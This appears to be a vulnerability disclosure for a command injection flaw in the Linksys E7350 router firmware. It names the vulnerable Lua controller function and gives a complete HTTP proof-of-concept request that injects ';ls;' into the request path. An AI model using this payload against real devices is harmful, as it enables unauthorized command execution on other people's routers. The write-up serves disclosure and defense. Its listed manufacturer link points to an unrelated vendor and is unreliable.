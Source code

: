 # Linksys E7350 Ver.1.1.00.032 Command Injection (vif_disable)

## Product Information

- Device: Linksys E7350
- Firmware Version: Ver.1.1.00.032
- Manufacturer's website information：https://www.totolink.net/
- Firmware download address ：https://support.linksys.com/kb/article/6935-cn/

![](./1.png)

## Vulnerability Description

In the `/usr/lib/lua/luci/controller/mtkwifi.lua` file, there is a **command injection vulnerability** in the `vif_disable` function via the `iface` parameter.

![](./2.png)

Entry: `/admin/mtk/wifi/vif_disable/arg`

![](./3.png)

## Payload

We can trigger this vulnerability by injecting the `ls` command using the following payload.

```http
GET /cgi-bin/luci/admin/mtk/wifi/vif_disable/;ls; HTTP/1.1
Host: 192.168.187.136
Connection: close
Cache-Control: max-age=0
sec-ch-ua: "Google Chrome";v="131", "Chromium";v="131", "Not_A Brand";v="24"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: sysauth=2066ce7be48fd3ba36e4135e973cd840
```

After the injection, we can verify the result in the response.

![](./4.png)
